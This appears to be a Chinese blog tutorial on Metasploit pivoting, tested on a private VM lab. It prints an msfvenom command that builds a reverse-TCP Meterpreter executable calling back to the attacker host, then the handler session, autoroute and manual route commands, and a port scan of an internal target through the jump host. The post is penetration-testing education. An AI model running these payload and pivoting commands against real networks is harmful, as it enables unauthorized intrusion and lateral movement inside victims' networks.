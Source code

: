 ```yaml
---
layout: post
title: Metasploit  「跨网段攻击」添加路由表
comments: false
description: ""
keywords: "Tricks"
---
```


开一个系列，记录一下 Metasploit 框架的一些技巧；

## 情况？

Mac【Metasploit】：192.168.43.100

Win7【跳板机】：192.168.215.144【Nat】、172.16.63.128【仅主机】

Linux【目标机】：172.16.63.129【仅主机】，开启80端口方便检测验证

需要解释下这里跳板机为啥采用Nat方式获取ip，而不是桥接？因为主机Mac上网是连的CMCC-EDU，在校也很无奈额...

![QQ20180109-213706@2x.png](/assets/images/2018-01-06/537458916.png)

实际场景：当获得一台跳板机的权限后，如何针对其内网进行渗透；

这种场景可利用手段很多，各种转发代理进内网工具数不胜数...

这里利用 `Metasploit 添加路由表` 来跨网段攻击；

## 脚本 autoroute

前提拿到跳板机的 Meterpreter shell；

```
[Go0s]: ~ 
➜  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.100 LPORT=4444 -f exe -o ~/Desktop/shell.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of exe file: 73802 bytes
Saved as: /Users/go0s/Desktop/shell.exe
```

这里直接在跳板机运行上线；

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.43.100
lhost => 192.168.43.100
msf exploit(handler) > exploit 

[*] Started reverse TCP handler on 192.168.43.100:4444 
[*] Sending stage (179267 bytes) to 192.168.43.100
[*] Meterpreter session 1 opened (192.168.43.100:4444 -> 192.168.43.100:59135) at 2018-01-06 19:48:56 +0800
```

先查看跳板机处于哪几个网段中，使用 `get_local_subnets` 脚本；

```
meterpreter > run get_local_subnets 

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Local subnet: 172.16.63.0/255.255.255.0
Local subnet: 192.168.215.0/255.255.255.0
```

结果如期；

直接将内网网段172.16.63.0/24添加至路由表，使用 `autoroute` 脚本；

```
meterpreter > run autoroute -s 172.16.63.0/24

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.63.0/255.255.255.0...
[+] Added route to 172.16.63.0/255.255.255.0 via 192.168.43.100
[*] Use the -p option to list all active routes
```

将session退出至后台，使用 `route print` 查看路由表映射情况；

可以看出网关Gateway是Meterpreter shell的session，即跳板机；

```
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(handler) > route print 

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.63.0        255.255.255.0      Session 1

[*] There are currently no IPv6 routes defined.
```

使用端口扫描模块验证目标机80端口；

```
msf exploit(handler) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > show options 

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target address range or CIDR identifier
   THREADS      1                yes       The number of concurrent threads
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds

msf auxiliary(tcp) > set rhosts 172.16.63.129
rhosts => 172.16.63.129
msf auxiliary(tcp) > set ports 80
ports => 80
msf auxiliary(tcp) > exploit 

[+] 172.16.63.129:        - 172.16.63.129:80 - TCP OPEN
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

路由成功，使用MSF成功检测【攻击】内网目标机；

但是它有弊端，如果子网太大可能会将本机的数据包广播出去，所以最好看一下子网大小，使用手动添加路由；

## 手工设置路由表

即代替上种方法中的 `autoroute` 脚本；

```
查看跳板机所处网段：
meterpreter > run get_local_subnets 
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Local subnet: 172.16.63.0/255.255.255.0
Local subnet: 192.168.215.0/255.255.255.0

将运行着的session退至后台：
meterpreter > background
[*] Backgrounding session 1...

添加路由：
msf exploit(handler) > route add 172.16.63.0 255.255.255.0 1
[*] Route added
msf exploit(handler) > route print
IPv4 Active Routing Table
=========================
   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.63.0        255.255.255.0      Session 1
[*] There are currently no IPv6 routes defined.
```

## 诟病

本机Metasploit使用【手工设置路由表】设置路由后，竟然同步到了本机上，造成本机直接可以访问目标机...

原因很简单，MSF界面使用命令作用于本机...这里首推使用脚本来添加；

删除本条路由，需要root权限；

```
[Go0s]: ~ 
➜  netstat -nr
Routing tables
Internet:
Destination        Gateway            Flags        Refs      Use   Netif Expire
172.16.63/24       link#18            UC              2        0  vmnet1
172.16.63.128      0:c:29:c:e1:c5     UHLWI           0       21  vmnet1    707
172.16.63.129      0:c:29:f1:8c:aa    UHLWIi          1     1528  vmnet1   1184

[Go0s]: ~ 
➜  sudo route delete 172.16.63/24    
delete net 172.16.63
```
